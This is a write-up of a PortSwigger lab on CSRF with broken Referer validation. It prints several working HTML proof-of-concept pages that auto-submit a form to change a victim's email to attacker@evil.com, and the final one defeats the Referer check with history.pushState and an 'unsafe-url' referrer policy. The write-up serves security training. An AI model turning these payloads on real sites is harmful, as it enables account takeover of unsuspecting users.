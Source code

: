 # CSRF with broken Referer validation | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-broken), you'll learn: CSRF with broken Referer validation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052029.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052052.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052057.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect that HTML form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

In here, we can see that there is **no CSRF token**.

**Now, we can use the `exploit serevr` to test CSRF attack:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052342.png)

**Then, we can craft a HTML form that performs CSRF attack on the victim:**
```html
<html>
    <head>
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**To test is will work or not, I'll use the `View exploit` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052529.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052546.png)

However, it outputs an error: `Invalid referer header`.

**In the previous lab, we bypass that check with a `<meta>` tag:**
```html
<html>
    <head>
        <meta name="referrer" content="no-referrer">
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's try that again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052723.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215052738.png)

Hmm... We still get an `Invalid referer header` error.

**This got me thinking: Is the application validates that the domain in the `Referer` starts with the expected value??**

**Let's check that in Burp Suite's Repeater:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053511.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053540.png)

**In here, we can try to send a different URL in the `Referer` header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215053634.png)

**Then, what if I try to append a GET parameter after the expected value?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054242.png)

It still works!

**That being said, the application is checking the domain in the `Referer` starts with the expected value!**

**According the [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState), we can use a JavaScript function called `history.pushState()`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054430.png)

**To bypass that check, we can add the `history.pushState()` function in our exploit:**
```html
<html>
    <head>
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

This will cause the `Referer` header in the generated request to contain the URL of the target site in the query string.

However, this still couldn't work, as many browsers now strip the query string from the Referer header by default as a security measure.

**To bypass that, we can just add a new `<meta>` tag to override that behavior and ensure that the full URL is included in the request:**
```html
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF-12</title>
    </head>
    <body>
        <form action="https://0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            history.pushState('', '', '/?0a9400bc039e5e9ac050dc50005c009b.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to a victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054941.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-12/images/Pasted%20image%2020221215054955.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF with broken Referer validation